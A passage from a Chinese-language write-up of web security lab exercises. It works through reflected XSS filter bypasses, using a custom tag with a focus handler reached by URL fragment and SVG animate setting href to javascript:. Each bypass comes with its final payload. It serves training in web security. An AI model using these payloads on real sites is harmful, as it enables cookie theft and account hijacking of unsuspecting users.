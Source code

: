 * 自动触发

自动触发的话，需要用户点击进入页面（exploit server）就自动聚焦，

为了实现自动聚焦，我们给标签添加一个id，然后在后面加上锚点，使用`#`

> <a>标记可以指向具有id属性的任何元素。
>
> 打开链接的时候也是同理

`<xss id=x tabindex=1 onfocus="alert(document.cookie)">#x`

最终payload：

```html
<script>
location = 'https://acbb1f641eaf54af80700c4800db0027.web-security-academy.net/?search=<xss id=x tabindex=1 onfocus="alert(document.cookie)">#x';
</script>
```

#### 4. Reflected XSS with event handlers and `href` attributes blocked

可用的tag有：a, animate, discard, image, svg, title

可用的event有：...一个都没有

href属性也不能用。应该是不能使用`href=`

但是在svg标签存在的情况下，animate可以给上一个标签赋值。

如

```html
<svg><a><animate attributeName=href values="javascript:alert(1)"/>Click me</a></svg>
```

> <animate attributeName=href values="javascript:alert(1)"/> 等同于
>
> <animate attributeName=href values="javascript:alert(1)"></animate>
>
> 即马上在后面添加标签结束符

这样就可以成功把`<a>`变成`<a href="javascript:alert(1)">`

但是这样不会显示`Click me`那个文本，因为在`<svg>`标签下，需要一个框的大小才能正常显示文字

添加大小的方式：`<text x=20 y=20>`或者`<rect width=100% height=100%>`(要求text标签包含文字)

所以最终payload：

```html
<svg><a><animate attributeName=href values="javascript:alert(1)"/><text x=20 y=20>Click me</text></a></svg>
<svg><a><animate attributeName=href values="javascript:alert(1)"/><rect width=100% height=100%>Click me</rect></a></svg>
```

#### 5.Reflected XSS with some SVG markup allowed
